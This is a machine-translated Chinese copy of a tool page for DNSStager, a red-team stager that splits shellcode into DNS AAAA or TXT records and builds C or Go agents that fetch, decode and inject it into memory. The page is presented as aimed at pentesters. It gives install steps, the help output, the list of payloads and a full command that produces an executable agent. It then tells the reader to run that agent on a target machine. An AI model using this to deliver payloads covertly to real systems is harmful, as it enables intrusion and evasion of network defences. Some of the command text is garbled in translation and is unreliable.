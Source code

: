 # DNSStager:在 DNS 中隐藏你的有效负载

> 原文：<https://kalilinuxtutorials.com/dnsstager/>

[![DNSStager : Hide Your Payload In DNS](img//5acbb84f2d7b1f3714b4a5180f896817.png "DNSStager : Hide Your Payload In DNS")](https://1.bp.blogspot.com/-cQpAXZAc-Bk/YPT4sQIOvpI/AAAAAAAAKFk/2QeZAuGLDTopeNNk8FsqkqcGylEs9tU4ACLcBGAsYHQ/s1041/DNSStager%2B%25281%2529.png)

**DNSStager** 是一个基于 Python 的开源项目，用于使用 DNS 隐藏和传输您的有效负载。

DNSStager 将创建一个恶意的 DNS 服务器，处理对您的域的 DNS 请求，并在将您的有效负载拆分成块并使用不同的算法对其进行编码后，返回您的有效负载作为对特定记录请求(如`AAAA`或`TXT`记录)的响应。

DNSStager 可以生成一个用`C`或`GoLang`编写的定制代理，它将解析一系列域，检索有效负载，解码它，并最终根据您想要的任何技术将其注入内存。

您可以随意编辑 DNSStager 代理的代码，并使用您自己的定制执行技术来构建它。

使用 DNSStager 的主要目的是帮助 red teamers/pentesters 使用 DNS 在隐形通道中交付其有效载荷。

它是如何工作的？

根据您的 DNS 解析选项，DNSStager 会将您的有效负载拆分为多个块，并将每个有效负载块保存为一个子域的响应。

例如，如果您选择`**IPV6**`作为检索有效负载的选项，DNS 响应将类似于:

`**cloud-srv-1.test.mydnsserver.live. 300 IN AAAA 5648:31d2:6548:8b52:6048:8b52:1848:8b52**`

其中`**5648:31d2:6548:8b52:6048:8b52:1848:8b52**`是有效载荷的一部分。

因此，代理将解析一些域来检索有效载荷，然后对其进行解码，最后将其注入内存。

目前 DNSStager 只支持两个记录，`**AAAA**`和`**TXT**`。您可以使用 XOR 对`AAAA`记录进行编码，默认情况下，如果您选择`TXT`记录，它将被编码为 base64。

**DNSStager 的主要特性**

DNSStager 具有一些关键特性，例如:

*   在`**IPV6**`记录中隐藏并解析你的有效载荷。
*   在`**TXT**`记录中隐藏并解析你的有效载荷。
*   XOR 编码器来编码你的有效载荷。
*   Base64 编码器来编码您的有效负载(仅用于 TXT 记录)。
*   用 **`C`** 编写的纯代理具有定制它的能力。
*   用`**GoLang**`编写的纯代理，能够定制它。
*   在每次 DNS 请求之间使用睡眠的能力。
*   更多精彩即将到来！

**要求**

您可以通过以下方式安装 DNSStager python 要求:

`**pip3 install -r requirements.txt**`

您需要安装`**GoLang**`版本`1.16.3`，并确保安装以下`**GoLang**`包:

*   golang.org/x/sys
*   github.com/miekg/dns

此外，确保通过以下方式安装`**ming-w64**`:

`**apt install mingw-w64**`

脚本`**setup.sh**`应该可以帮你做到这一点，但是在你使用它之前要仔细检查需求！

**安装**

要获取 DNSStager 的最新版本，请确保使用以下命令从该存储库中克隆它:

`**git clone https://github.com/mhaskar/DNSStager**`

然后，您需要使用以下命令安装需求:

`**pip3 install -r requirements.txt**`

并确保安装前面提到的所有要求。

完成所有这些之后，您就可以以根用户的身份执行 DNSStager **来获得以下内容:**

**┌─[askar@hackbook]─[/opt/redteaming/DNSStager]
└──╼ $sudo ./dnsstager.py
██████╗░███╗░░██╗░██████╗░██████╗████████╗░█████╗░░██████╗░███████╗██████╗░
██╔══██╗████╗░██║██╔════╝██╔════╝╚══██╔══╝██╔══██╗██╔════╝░██╔════╝██╔══██╗
██║░░██║██╔██╗██║╚█████╗░╚█████╗░░░░██║░░░███████║██║░░██╗░█████╗░░██████╔╝
██║░░██║██║╚████║░╚═══██╗░╚═══██╗░░░██║░░░██╔══██║██║░░╚██╗██╔══╝░░██╔══██╗
██████╔╝██║░╚███║██████╔╝██████╔╝░░░██║░░░██║░░██║╚██████╔╝███████╗██║░░██║
╚═════╝░╚═╝░░╚══╝╚═════╝░╚═════╝░░░░╚═╝░░░╚═╝░░╚═╝░╚═════╝░╚══════╝╚═╝░░╚═╝
Beta Version Hide your payload in DNS
[-] Please specify a domain name using –domain**

**用途**

要开始使用 DNSStager，请确保首先设置您的 DNS 设置，您需要将您的域作为`**NS record**`指向 DNSStager 实例，以便处理您的域的所有 DNS 请求。

您可以阅读这篇关于如何设置和使用 DNSStager 的完整文章。

您可以使用`**-h**`开关检查选项，如下所示:

**┌─[askar@hackbook]─[/opt/redteaming/dnsstager】
└──╼$须藤。/dnsstager.py -h
用法:DNSStager . py[-h][–DOMAIN DOMAIN][–PREFIX PREFIX]
[–PAYLOAD PAYLOAD][–OUTPUT OUTPUT]
[–SHELLCODE _ PATH SHELLCODE _ PATH][–xor key xor key]
[–SLEEP]
DNSStager 主解析器
可选参数:
-h，–help 显示此帮助消息并退出
–DOMAIN 要用作域的域 请参见–有效负载了解更多详细信息
–输出输出代理输出路径
–外壳代码 _ 路径外壳代码 _ 路径
外壳代码文件路径
–XOR key XOR key XOR key 使用
对有效负载进行编码–睡眠睡眠在每次 DNS 请求之间睡眠 N 秒**

*   –域:您可以使用此选项来选择您将用来处理 DNS 请求的主域。
*   —前缀:要用于子域模式的前缀例如，如果您的主域是 **`fakedns.live`** 您可以将前缀指定为“cdn”，因此生成的域将是如下模式:
    *   `**cdn0.fakedns.live**`
    *   `**cdn1.fakedns.live**`
    *   `**cdnN.fakedns.live**`

其中`**N**`是自动生成的数字，代表您的有效负载的块数。

*   –payload:您希望基于技术、编程语言和架构生成的 DNSStager 有效负载“代理”。
*   –Output:保存 DNSStager 可执行负载“代理”的输出路径。
*   –shellcode _ path:您的 **`raw` / `bin`** shellcode 路径。
*   –XOR key:用于对有效负载进行编码的 XOR 键。
*   –sleep:用于在每次 DNS 请求之间休眠 N 秒。

**DNSStager 有效载荷**

要检查可用的 DNSStager 有效负载，您可以使用`**./dnsstager.py --payloads**`获得以下结果:

**┌─[askar@hackbook]─[/opt/redteaming/dnsstager】
└──╼$须藤。/DNS stager . py–有效负载
[+] 6 个 DNSStager 有效负载可用
x64/c/ipv6 通过编译的 x64 C 代码将有效负载解析为与自定义密钥异或的 ipv6 地址
x86/c/ipv6 通过编译的 x86 C 代码将有效负载解析为与自定义密钥异或的 ipv6 地址
x64/golang/txt 将有效负载解析为使用 base64 编译的 x64 GoLang 代码编码的 txt 记录
x64/golang/ipv6 将有效负载解析为使用自定义密钥编码的 IPV6 地址通过编译的 x64 GoLang 代码使用字节添加编码
x86/golang/txt 使用 base64 编译的 x86 GoLang 代码编码的记录
x86/golang/ipv6 通过编译的 x86 GoLang 代码使用字节添加编码将有效负载解析为使用自定义密钥编码的 ipv6 地址**

**在 IPV6 中使用 DNSStager 的示例**

此示例将启动 DNSStager，使用带有前缀`**cloud-srv-**`的域`**test.mydnsserver.live**`将您的有效负载解析为`**IPV6**`，以生成使用 0x10 作为关键字编码的编译后的`**x64 C**`代理:

`**sudo ./dnsstager.py --domain test.mydnsserver.live --payload x64/c/ipv6 --output /tmp/a2.exe --prefix cloud-srv- --shellcode_path ~/payload.bin --sleep 1 --xorkey 0x10**`

输出将是:

![](img//36868a9b13e0fc60701e99e2283a07ce.png)

为了检查一切是否正常，让我们向`cloud-srv-0.test.mydnsserver.live`发送 DNS 查询以获得以下内容:

![](img//36868a9b13e0fc60701e99e2283a07ce.png)

我们可以看到，我们收到了作为响应的`**f642:89ee:fae2:c20a:a0a:4b5b:4b5a:585b**`,这是我们编码的有效载荷的前 16 个字节。

然后，您可以在目标机器上执行代理 **`/tmp/a2.exe`** (如在命令行中的 using–output 中所设置的)，它将下载所有需要的块，对它们进行解码，并为您将它们注入内存。

[**Download**](https://github.com/mhaskar/DNSStager)